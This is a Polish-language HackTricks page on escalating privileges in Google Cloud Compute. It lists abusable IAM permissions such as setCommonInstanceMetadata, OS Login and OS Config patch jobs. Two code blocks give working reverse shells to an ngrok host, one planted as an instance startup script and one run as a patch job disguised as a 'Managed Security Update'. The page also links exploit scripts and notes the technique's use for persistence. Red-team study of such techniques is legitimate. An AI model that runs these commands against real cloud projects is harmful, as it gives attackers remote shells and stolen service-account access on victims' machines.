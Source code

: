 # GCP - Eskalacja uprawnień w Compute

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

Aby uzyskać więcej informacji na temat Compute i VPC (sieć) w GCP, sprawdź:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Zauważ, że aby przeprowadzić wszystkie ataki eskalacji uprawnień, które wymagają modyfikacji metadanych instancji (takie jak dodawanie nowych użytkowników i kluczy SSH), **konieczne jest posiadanie uprawnień `actAs` do SA przypisanego do instancji**, nawet jeśli SA jest już przypisane!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Z tym uprawnieniem możesz **modyfikować** informacje **metadanych** instancji i zmieniać **autoryzowane klucze użytkownika**, lub **tworzyć** **nowego użytkownika z uprawnieniami sudo**. Dzięki temu będziesz mógł wykonać SSH do dowolnej instancji VM i ukraść konto usługi GCP, z którym działa instancja.\
Ograniczenia:

* Zauważ, że konta usług GCP działające w instancjach VM domyślnie mają **bardzo ograniczony zakres**
* Będziesz musiał **możliwość skontaktowania się z serwerem SSH**, aby się zalogować

Aby uzyskać więcej informacji na temat wykorzystania tego uprawnienia, sprawdź:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Możesz także przeprowadzić ten atak, dodając nowy skrypt uruchamiania i restartując instancję:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

To uprawnienie daje **te same uprawnienia co poprzednie uprawnienie**, ale dotyczy konkretnych instancji zamiast całego projektu. **Dotyczą go te same ataki i ograniczenia co w poprzedniej sekcji**.

### `compute.instances.setIamPolicy`

To rodzaj uprawnienia pozwoli ci **przyznać sobie rolę z poprzednimi uprawnieniami** i eskalować uprawnienia nadużywając ich.

### **`compute.instances.osLogin`**

Jeśli **OSLogin jest włączony na instancji**, to dzięki temu uprawnieniu możesz po prostu uruchomić **`gcloud compute ssh [INSTANCJA]`** i połączyć się z instancją. **Nie będziesz mieć uprawnień roota** wewnątrz instancji.

{% hint style="success" %}
Aby pomyślnie zalogować się z tym uprawnieniem wewnątrz instancji VM, musisz mieć uprawnienie `iam.serviceAccounts.actAs` nad SA przypisanym do VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Jeśli **OSLogin jest włączony na instancji**, to dzięki temu uprawnieniu możesz po prostu uruchomić **`gcloud compute ssh [INSTANCJA]`** i połączyć się z instancją. Będziesz miał uprawnienia **roota** wewnątrz instancji.

{% hint style="success" %}
Aby pomyślnie zalogować się z tym uprawnieniem wewnątrz instancji VM, musisz mieć uprawnienie `iam.serviceAccounts.actAs` nad SA przypisanym do VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Możliwe jest **utworzenie wirtualnej maszyny z przypisanym kontem usługi i kradzieżą tokena** konta usługi uzyskując dostęp do metadanych w celu eskalacji uprawnień.

Skrypt wykorzystujący tę metodę można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Jeśli masz uprawnienia **`osconfig.patchDeployments.create`** lub **`osconfig.patchJobs.exec`**, możesz utworzyć [**zadanie lub wdrożenie łatki**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Pozwoli ci to na lateralne poruszanie się w środowisku i uzyskanie wykonania kodu na wszystkich instancjach obliczeniowych w ramach projektu.

Zauważ, że w chwili obecnej **nie potrzebujesz uprawnienia `actAs`** nad SA przypisanym do instancji.

Jeśli chcesz ręcznie wykorzystać to, będziesz musiał utworzyć albo [**zadanie łatki**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **lub** [**wdrożenie**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Aby uruchomić zadanie łatki, wykonaj:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Aby wdrożyć wdrożenie łatki:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Narzędzie [patchy](https://github.com/rek7/patchy) mogło być używane w przeszłości do wykorzystania tej błędnej konfiguracji (ale teraz nie działa).

**Atakujący mógłby również wykorzystać to do trwałości.**

### `compute.machineImages.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do obrazu maszyny obliczeniowej.

### `compute.snapshots.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do migawki dysku.

### `compute.disks.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do dysku.

### Ominiecie zakresów dostępu

Klikając na ten link znajdziesz kilka [**pomysłów, jak próbować ominąć zakresy dostępu**](../).

### Lokalna eskalacja uprawnień w instancji obliczeniowej GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Odnośniki

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
